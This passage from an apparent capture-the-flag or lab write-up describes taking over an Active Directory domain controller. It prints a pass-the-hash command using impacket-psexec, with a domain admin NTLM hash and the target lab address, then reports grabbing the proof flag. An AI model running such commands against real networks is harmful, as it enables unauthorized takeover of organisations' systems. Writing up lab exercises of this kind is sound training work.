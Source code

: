 We are not going to do any enumeration, lateral movement or Privilege escalation because we already have domain admin's ntlm hash.

**So straight away we can get a fully interactive shell using Impacket-psexec:**

```
impacket-psexec -hashes 00000000000000000000000000000000:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.151.140
```

![[Pasted image 20240602175606.png]]

Finally got it..! We are domain controller now.

**Lets get the Proof.txt from Admin's Desktop:**
![[Pasted image 20240602175722.png]]
We got the Proof flag in Administrator's Desktop.


That's It for the AD...!

